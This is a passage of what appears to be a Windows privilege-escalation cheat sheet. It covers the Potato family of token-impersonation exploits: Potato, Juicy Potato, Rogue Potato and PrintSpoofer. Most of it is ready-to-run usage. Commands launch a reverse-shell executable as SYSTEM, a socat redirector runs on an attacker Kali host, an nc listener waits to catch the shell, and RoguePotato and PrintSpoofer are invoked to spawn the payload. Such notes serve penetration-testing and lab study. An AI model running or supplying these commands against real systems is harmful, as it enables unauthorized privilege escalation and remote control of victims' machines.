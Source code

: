 ```powershell
Example Windows Server 2012:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_spoof true

Example Windows 10:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_defender_scan true

Example Enable WebClient:
Potato.exe -enable_etw true
Potato.exe -enable_etw 22b6d684-fa63-4578-87c9-effcbe6643c7

Example IIS/MSSQL/*:
Potato.exe -enable_token true -enable_dce true
Potato.exe -enable_token true -enable_httpserver true -enable_defender_scan true -srv_port 9595
Potato.exe
```

### Juicy Potato
Source code can be found at `https://github.com/ohpe/juicy-potato`
> C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

- Note: "-c" argument take CLSID, so if it doesn't work check this list: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md or run GetCLSID.ps1 PowerShell script.

### Rogue Potato

- Latest of the "Potato" exploits.
   - GitHub: https://github.com/antonioCoco/RoguePotato
   - Blog: https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
   - Compiled Exploit: https://github.com/antonioCoco/RoguePotato/releases
- Usage:
	- On Kali:
	1. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows    
		> sudo socat tcp-listen:135,reuseaddr,fork tcp:[Windows IP Machine]:9999   
	2. Start listener   
		> nc -lvp [Port assign in reverse.exe shell]   
       
	- On Windows Victim machine:
		> C:\PrivEsc\RoguePotato.exe -r [Kali IP Machine] –l 9999 -e "C:\PrivEsc\reverse.exe"
  
### PrintSpoofer
- PrintSpoofer is an exploit that targets the Print Spooler service.
	- GitHub: https://github.com/itm4n/PrintSpoofer
	- Blog: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges
- Usage: 
> C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"

